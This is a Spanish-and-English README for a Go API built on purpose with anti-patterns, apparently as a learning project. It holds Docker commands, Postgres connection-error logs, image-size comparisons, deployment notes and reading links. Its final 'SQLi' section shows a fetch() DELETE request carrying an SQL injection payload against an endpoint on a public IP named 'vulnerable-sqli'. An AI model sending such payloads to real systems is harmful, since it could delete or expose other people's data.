# Anti-pattern-API2

API written in Golang with some golang antipatterns.

> Bad Golang Scaffolding "The Standard Go Project Structure"

    ├── db
    │   ├── db.go
    │   ├── Dockerfile
    │   └── init.sql
    ├── go.mod
    ├── go.sum
    ├── handlers
    │   └── instrument_handler.go
    ├── main.go
    ├── models
    │   └── instrument.go
    ├── docker-compose.yml
    ├── Dockerfile
    ├── README.md
    └── request.md



## Run Database

    docker-compose up -d
    docker-compose down
    docker-compose down -v --rmi all
    docker-compose up --build -d

    docker exec -it anti-pattern-api2_db_1 psql -U user -d mydatabase
    docker exec -it anti-pattern-api2_app_1 /bin/sh


**: dial error (dial tcp 172.28.0.2:5432: connect: connection refused)** reintentos del msa, healthceck from docker-compose.yml

2025/06/18 03:16:12 Ping a la base de datos falló: failed to connect to `host=db2 user=user database=mydatabase`: hostname resolving error (lookup db2 on 127.0.0.11:53: server misbehaving)

2025/06/18 03:17:48 Ping a la base de datos falló: failed to connect to `host=db user=user database=mydatabase`: dial error (dial tcp 172.28.0.2:5432: connect: connection refused)


sera el multistager build?  por que no pasa en el de microservices? no agregar healtcheck en el docker-compose siempre ha funcionado.


      # - DSN=host=postgres_sqli port=5432 user=postgres password=password dbname=sqli sslmode=disable timezone=UTC connect_timeout=5

**Con multistage build**

REPOSITORY                                 TAG               IMAGE ID       CREATED          SIZE
anti-pattern-api2_db                       latest            574ef4010805   9 minutes ago    274MB
anti-pattern-api2_app                      latest            507276655e42   40 minutes ago   19.9MB


**Sin multistage build**

REPOSITORY                                 TAG               IMAGE ID       CREATED              SIZE
anti-pattern-api2_app                      latest            68f660ee482a   About a minute ago   468MB
anti-pattern-api2_db                       latest            574ef4010805   55 minutes ago       274MB


**despues de cambiar al bind mount la primera vez sucedio el connection refussed y la segunda vez no sucedio y conecto inmediatamenete**

RELACION VOLUMEN (Named|Bind) + Dockerfiles (Normal|Multistage) + Driver (Pool|Native)

Docker compose toma el up.sql o init de la ruta directamente en el volumen (Named Volumen):

    volumes:
      # Monta el archivo init.sql para que PostgreSQL lo ejecute al iniciar
      # - ./sql/init.sql:/docker-entrypoint-initdb.d/init.sql


2 veces , despues de creado el volumen sube mas rapido y no hay connection refused.
	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)


status code
https://go.dev/src/net/http/status.go



“Accept interfaces, return structs.”
https://medium.com/capital-one-tech/doing-well-by-doing-bad-writing-bad-code-with-go-part-1-2dbb96ce079a
https://medium.com/capital-one-tech/doing-well-by-doing-bad-writing-bad-code-with-go-part-2-e270d305c9f7


repository
error handling

coupling cohession

Common Anti-Patterns in Go Web Applications
https://threedots.tech/post/common-anti-patterns-in-go-web-applications/


DEPLOYMENT

Docker-compose

artifact gcR

Autenticación de Docker en la VM: El comando gcloud auth configure-docker se ejecuta en el runner de GitHub Actions, no en la instancia de GCE. La instancia de GCE necesita su propia forma de autenticarse con Docker. Esto se logra mediante los scopes y la cuenta de servicio.


docker exec -it runner-db-1 psql -U user -d mydatabase



# SQLi

fetch("https://35.227.95.135/instruments/vulnerable-sqli?id=3' OR ''='", {
  method: "DELETE",
})
.then(res => res.text())
.then(data => console.log(data))
.catch(err => console.error(err));

🔹 RESTer (Firefox)
🔹 Postman Web o Extensión Chrome


